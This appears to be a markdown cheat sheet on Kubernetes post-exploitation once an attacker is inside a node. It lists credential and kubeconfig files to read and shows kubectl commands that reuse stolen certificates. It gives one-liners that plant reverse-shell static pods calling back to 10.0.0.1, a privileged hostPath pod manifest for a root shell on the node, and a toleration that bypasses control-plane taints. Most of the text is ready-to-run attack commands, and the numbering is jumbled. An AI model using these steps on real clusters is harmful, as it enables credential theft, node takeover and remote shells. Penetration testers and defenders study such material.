 ### what can we do inside the node
0. **Master** node or **Worker** node? 
  
Since Kubernetes v1.20:
```bash 
kubectl get nodes -l 'node-role.kubernetes.io/control-plane'`
```
Before Kubernetes v1.20:
```bash
kubectl get nodes -l 'node-role.kubernetes.io/master'
```
To get workers we can use negation for above expressions (since Kubernetes v1.20):
```bash
kubectl get nodes -l '!node-role.kubernetes.io/control-plane'
```
Before Kubernetes v1.20:
```bash
kubectl get nodes -l '!node-role.kubernetes.io/master'
```
Another approach is to use command kubectl cluster-info which will print IP address of the control-plane:

Kubernetes control plane is running at **https://{ip-address-of-the-control-plane}:8443**

1. Full file system access: configs, keys, certs:
- `$HOME/.kube/config`
- `/etc/kubernetes/bootstrap-kubelet.conf`
- `/etc/kubernetes/manifests/etcd.yaml`
- `/etc/kubernetes/pki`

Use: 
- apply config for kubectl: 
```bash
kubectl –kubeconfig $HOME/.kube/config get po
```

- apply cert for kubectl: 
```bash
KUBECONFIG=<filename> kubectl config set-cluster default-cluster --server=https://<host_ip>:6443 --certificate-authority <path-to-kubernetes-ca> --embed-certs
```

- apply pem-key for kubectl: 
```bash
KUBECONFIG=<filename> kubectl config set-credentials <credential-name> --client-key <path-to-key>.pem --client-certificate <path-to-cert>.pem --embed-certs
```

- set current cluster context: 
```bash
KUBECONFIG=<filename> kubectl config set-context default-system --cluster default-cluster --user <credential-name>
```

- use cluster context:
```bash 
KUBECONFIG=<filename> kubectl config use-context default-system
```

2. Container runtime socket (conn to sock and exec)
- [crictl](https://github.com/kubernetes-sigs/critools) (provides a CLI for CRI-compatible container runtimes. This allows the CRI runtime developers to debug their runtime without needing to set up Kubernetes components)
```bash
curl -sL https://github.com/kubernetes-sigs/critools/releases/download/v1.25.0/crictl-v1.25.0-linux-amd64.tar.gz | tar zxf -
```
- usage: `crictl exec -i -t example_pod bash`, `crictl ps` (get images), `crictl logs <image_id>` (get logs) ... 

- crictl by default connects on Unix to:
  - unix:///run/containerd/containerd.sock or
  - unix:///run/crio/crio.sock or
  - unix:///var/run/cri-dockerd.sock
- or on Windows to:
  - npipe:////./pipe/containerd-containerd or
  - npipe:////./pipe/cri-dockerd

1. Using these configs, you can interact with Pod and other resources located on the Node to which you fled
```bash
kubectl –kubeconfig /etc/kubernetes/kubelet.conf get po -A
```

**Useful ways**:
- `/var/lib/kubelet/kubeconfig`
- `/var/lib/kubelet/kubelet.conf`
- `/var/lib/kubelet/config.yaml`
- `/var/lib/kubelet/kubeadm-flags.env`
- `/etc/kubernetes/kubelet-kubeconfig`
- `/etc/kubernetes/kubelet.conf`
- `/etc/kubernetes/admin.conf`
- `/etc/kubernetes/controller-manager.conf`
- `/etc/kubernetes/scheduler.conf`

4. We can create StaticPod (for example, try create pods with reverseshell from https://github.com/BishopFox/badPods)
```bash
HOST="10.0.0.1" PORT="3111" envsubst < ./manifests/everything-allowed/pod/everything-allowed-revshell-pod.yaml >> /etc/kubernetes/manifests/everything-allowed-revshell-pod.yaml
HOST="10.0.0.1" PORT="3112" envsubst < ./manifests/priv-and-hostpid/pod/priv-and-hostpid-revshell-pod.yaml >> /etc/kubernetes/manifests/priv-and-hostpid-revshell-pod.yaml
HOST="10.0.0.1" PORT="3113" envsubst < ./manifests/priv/pod/priv-revshell-pod.yaml >> /etc/kubernetes/manifests/priv-revshell-pod.yaml
HOST="10.0.0.1" PORT="3114" envsubst < ./manifests/hostpath/pod/hostpath-revshell-pod.yaml >> /etc/kubernetes/manifests/hostpath-revshell-pod.yaml
HOST="10.0.0.1" PORT="3115" envsubst < ./manifests/hostpid/pod/hostpid-revshell-pod.yaml  >> /etc/kubernetes/manifests/hostpid-revshell-pod.yaml 
HOST="10.0.0.1" PORT="3116" envsubst < ./manifests/hostnetwork/pod/hostnetwork-revshell-pod.yaml >> /etc/kubernetes/manifests/hostnetwork-revshell-pod.yaml
HOST="10.0.0.1" PORT="3117" envsubst < ./manifests/hostipc/pod/hostipc-revshell-pod.yaml >> /etc/kubernetes/manifests/hostipc-revshell-pod.yaml
HOST="10.0.0.1" PORT="3118" envsubst < ./manifests/nothing-allowed/pod/nothing-allowed-revshell-pod.yaml >> /etc/kubernetes/manifests/nothing-allowed-revshell-pod.yaml
```
- This is a manifest which will deploy a privileged pod to a single node once running connect to it with a shell and run choot /host. For root access to the underlying node
```yaml
apiVersion: v1
kind: Pod
metadata:
  name: noderootpod
  labels:
spec:
  hostNetwork: true
  hostPID: true
  hostIPC: true
  containers:
  - name: noderootpod
    image: busybox
    securityContext:
      privileged: true
    volumeMounts:
    - mountPath: /host
      name: noderoot
    command: [ "/bin/sh", "-c", "--" ]
    args: [ "while true; do sleep 30; done;" ]
  volumes:
  - name: noderoot
    hostPath:
      path: /
```
- Above manifest will create a privileged pod on a node in the cluster. Once it's running `kubectl exec -it noderootpod chroot /host` should give you a root shell on the node

1. Road to the Master Node
  
Most clusters cannot run containers on the Master Node

- the Master Node stores the Service Account, keys and certificates, thanks to which we can become a cluster-admin

Kubernetes has a Taints & Toleraitions mechanism that prevents running a Pod on the Master Node. **Bypass**:

```yaml
spec:
    tolerations:
    - key: ""
      operator: "Exists"
      effect: "NoSchedule"
```
